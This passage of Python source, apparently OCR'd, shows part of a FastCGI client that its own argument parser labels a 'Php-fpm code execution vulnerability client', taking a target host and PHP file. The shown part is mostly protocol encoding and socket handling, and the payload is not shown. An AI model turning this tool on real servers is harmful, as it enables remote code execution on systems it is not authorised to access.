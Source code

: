 ```
        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)
 
        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)
 
        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)
 
        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)
 
    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf
 
        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']
 
    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)
 
 
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
```